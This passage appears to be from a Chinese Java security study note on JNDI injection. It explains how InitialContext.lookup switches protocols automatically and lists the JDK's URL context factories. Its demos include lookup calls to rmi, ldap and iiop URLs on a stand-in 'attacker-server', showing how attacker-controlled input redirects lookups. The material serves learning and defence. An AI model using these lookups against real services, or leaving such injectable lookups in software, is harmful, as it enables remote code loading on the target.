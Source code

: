 ## 动态协议转换
在上文的示例代码中都手动设置了对应服务的工厂以及对应服务的`PROVIDER_URL`, 其实在`JNDI`中是可以进行动态协议转换的, 示例代码如下:

 - Demo-1
```java
Context context = new InitialContext();
context.lookup("rmi://attacker-server/refObject");
context.lookup("ldap://attacker-server/cn=bar,dc=test,dc=org");
context.lookup("iiop://attacker-server/bar");
```

 - Demo-2
```java
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL, "rmi://localhost:8888");
Context context = new InitialContext(env);

String name = "ldap://attacker-server/cn=bar,dc=test,dc=org";
context.lookup(name);
```

在`Demo-1`的代码中没有设置对应服务的工厂以及`PROVIDER_URL`, `JNDI`根据传递的`URL`协议自动转换与设置了对应的工厂及`PROVIDER_URL`. 在`Demo-2`的代码中可以看到, 即使服务端提前设置了工厂与`PROVIDER_URL`也没有什么影响, 当`lookup`操作时的参数能够被攻击者控制时, 依旧会根据攻击者提供的`URL`进行动态转换并覆盖掉最初设置的`PROVIDER_URL`, 将`lookup`操作指向攻击者控制的服务器.

从源码层面上来看看具体的流程, 跟进`InitialContext#lookup`方法, 在返回值中会调用`InitialContext#getURLOrDefaultInitCtx`方法, 继续跟进该方法, 在这里会进行动态转化操作.

![InitialContext#lookup](./Java安全学习-JNDI注入/4.png)

![InitialContext#getURLOrDefaultInitCtx](./Java安全学习-JNDI注入/5.png)

`JDK`中默认支持的`JNDI`自动协议转换以及对应的工厂类如下:
|协议|schema|Context|
|:----|:----|:----|
|DNS|dns://|com.sun.jndi.url.dns.dnsURLContext|
|RMI|rmi://|com.sun.jndi.url.rmi.rmiURLContext|
|LDAP|ldap://|com.sun.jndi.url.ldap.ldapURLContext|
|LDAP|ldaps://|com.sun.jndi.url.ldaps.ldapsURLContext|
|IIOP|iiop://|com.sun.jndi.url.iiop.iiopURLContext|
|IIOP|iiopname://|com.sun.jndi.url.iiopname.iiopnameURLContext|
|IIOP|corbaname://|com.sun.jndi.url.corbaname.corbanameURLContext|
